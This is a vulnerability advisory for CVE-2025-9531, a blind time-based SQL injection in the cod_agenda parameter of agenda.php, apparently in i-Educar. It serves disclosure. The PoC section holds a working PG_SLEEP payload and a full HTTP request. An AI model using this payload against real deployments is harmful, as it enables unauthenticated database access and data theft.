


## CVE-2025-9531: SQL Injection (Blind Time-Based) Vulnerability in `cod_agenda` Parameter on `agenda.php` Endpoint

> *CVE Publication: https://www.cve.org/CVERecord?id=CVE-2025-9531*

## Summary

<p style="text-align: justify;">A SQL Injection vulnerability was discovered in the <code>cod_agenda</code> parameter of the <code>agenda.php</code> endpoint. This issue allows any unauthenticated attacker to inject arbitrary SQL queries, potentially leading to unauthorized data access or further exploitation depending on database configuration.</p>

## Details

<p style="text-align: justify;">The application fails to properly sanitize user-supplied input in the <code>cod_agenda</code> parameter. As a result, specially crafted SQL payloads are interpreted directly by the backend database.</p>

## PoC

Vulnerable Endpoint: `agenda.php`

Parameter: `cod_agenda`

### Payload:

```terminal
' AND 4698=(SELECT 4698 FROM PG_SLEEP(5)) AND 'xiCO'='xiCO
```

#### Example Request

```terminal
GET /intranet/agenda.php?cod_agenda=2%27%20AND%204698=(SELECT%204698%20FROM%20PG_SLEEP(5))%20AND%20%27xiCO%27=%27xiCO  HTTP/1.1
Host: localhost:8086
sec-ch-ua: "Not)A;Brand";v="8", "Chromium";v="138"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: pt-BR,pt;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: i_educar_session=5AfYtvGRiuEgLBVbvksmwiNSnG75l4waXNMo1PEV
Connection: keep-alive
```

<p style="text-align: justify;">This payload introduces a time delay, demonstrating the ability to execute arbitrary SQL queries.</p>

### Normal request:



### SQLi Request:



<p style="text-align: justify;">Observe the time delay in the server response, indicating the successful execution of the SQL payload.</p>

## Impact

<p style="text-align: justify;">
  <ul>
    <li>Unauthorized access to sensitive data (e.g., users, passwords, logs).</li>
    <li>Database enumeration (schemas, tables, users, versions).</li>
    <li>Escalation to RCE depending on DB configuration (e.g., xp_cmdshell, UDFs).</li>
    <li>Full compromise of the application if chained with other vulnerabilities.</li>
    <li>This issue affects all users and environments, as it does not require authentication and is reachable via a public endpoint.</li>
  </ul>
</p>

## Reference

***[https://github.com/KarinaGante/KG-Sec/blob/main/CVEs/i-Educar/CVE-2025-9531.md](https://github.com/KarinaGante/KG-Sec/blob/main/CVEs/i-Educar/CVE-2025-9531.md)***

## Finder

[](https://www.linkedin.com/in/karina-gante/) [Karina Gante](https://www.linkedin.com/in/karina-gante/)

> ***By: [CVE-Hunters](https://github.com/CVE-Hunters/cve-hunters)***